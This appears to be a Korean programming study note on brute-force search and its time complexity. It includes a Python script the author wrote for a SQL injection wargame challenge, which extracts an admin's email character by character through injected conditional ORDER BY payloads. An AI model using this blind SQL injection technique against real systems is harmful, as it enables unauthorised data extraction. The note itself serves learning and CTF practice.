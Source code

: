 # __BruteForce__

## _-BruteForce_
모든 경우의 수를 탐색하면서 요구조건에 충족되는 결과만을 가져온다.<span style="color:grey"><sup>노가다</sup></span>  
순차 탐색, 깊이 우선 탐색, 너비 우선 탐색 등이 도구로 사용되며, 어떤식으로든  
전체를 탐색하였다면 브루트 포스 알고리즘을 사용한 것이다.

## _-time complexity_
O(경우의 수 * 방법1개를 시도해보는데 걸리는 시간복잡도)이다. 즉, 얼마나 걸리는지는  
케이스에 따라 다르면 경우에 따라 굉장히 복잡한 시간복잡도를 가질 수 있다.

## _EX code_
브루트포스를 이용해 비밀번호 무차별대입을 시도하는 문제가 꽤 있어서 옛날에 풀었던 코드 하나 들고옴.  
문제 : Lord of Sql Injection - hell fire
```python
import requests
from sys import stdout
from bs4 import BeautifulSoup


url = """https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?"""
cookies = {'PHPSESSID': '******'}

ascii_first = 33 #!
ascii_end = 126 #~

def ToFindLength():
    i = 0
    length = 0
    while True:
        print("\rTrying: {}".format(str(i)), sep="", end="", flush=True)
        query = "order=if(length(email)='{}' and id='admin', 1, 4)".format(str(i))
        res = requests.get(url + query, cookies=cookies)
        soup = BeautifulSoup(res.text, "html.parser")
        if soup.find("td").text == 'admin':
            length = i
            stdout.write("\n")
            print("[+] admin email length: {}\n".format(str(i)))
            print("Now find the exact value.\n\n")
            break
        else:
            i += 1
    ToFindExactValue(length)

def ToFindExactValue(Len):
    ExactValue = ""
    for i in range(1, Len + 1):
        for j in range(ascii_first, ascii_end + 1):
            query = """order=if(substr(email, {}, 1)=char({}) and id='admin', 1, 4)""".format(str(i), j)
            res = requests.get(url + query, cookies=cookies)
            soup = BeautifulSoup(res.text, "html.parser")
            if soup.find("td").text == 'admin':
                ExactValue += chr(j)
                print("\rFinding Value: {}".format(ExactValue.lower()), sep="", end="", flush=True)
                break
    print("\n[+] Exact Value : {}". format(ExactValue.lower()))
        
if __name__ == "__main__":
    print("\n")
    ToFindLength()
```